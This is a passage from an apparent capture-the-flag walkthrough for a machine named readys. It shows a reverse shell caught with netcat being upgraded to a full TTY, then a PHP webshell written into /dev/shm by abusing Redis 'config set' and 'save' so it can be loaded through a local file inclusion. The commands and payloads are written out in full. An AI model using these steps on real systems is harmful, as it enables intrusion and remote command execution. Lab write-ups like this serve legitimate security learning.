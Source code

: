 **Upgrading shell**

```bash
which python
/usr/bin/python
python -c "import pty; pty.spawn('/bin/bash')"
redis@readys:/dev/shm$ ^Z
zsh: suspended  nc -lvnp 443
```
{: .nolineno }

```bash
❯ stty raw -echo; fg
[1]  + continued  nc -lvnp 443
                              reset xterm
```
{: .nolineno }

```bash
redis@readys:/dev/shm$ export TERM=xterm 
redis@readys:/dev/shm$ stty rows 49 columns 185
redis@readys:/dev/shm$ 
```
{: .nolineno }

### Method 2: php webshell - shell as alice

There is an alternative method to obtain a shell directly as **alice**.

If we try to write a PHP file in the path where the web server is hosted, `/var/www/html` (default configuration, or depending on whether it's Nginx or Apache, check the vhost configuration files), we can see that we don't have write permissions.

```bash
192.168.166.166:6379> config set dir /var/www/html
OK
192.168.166.166:6379> config set dbfilename test.php
OK
192.168.166.166:6379> set test '<?php shell_exec("id"); ?>'
OK
192.168.166.166:6379> save
(error) ERR
```
{: .nolineno }

With an LFI in place, we could load that file from any path in the system. So, I'm going to attempt to write the php webshell to a path where all users have write permissions, for example `/dev/shm`, a system temporary directory.

```bash
192.168.166.166:6379> config set dir /dev/shm
OK
192.168.166.166:6379> config set dbfilename cmd.php
OK
192.168.166.166:6379> set test '<?php system($_GET["c"]); ?>'
OK
192.168.166.166:6379> save
OK
```
{: .nolineno }
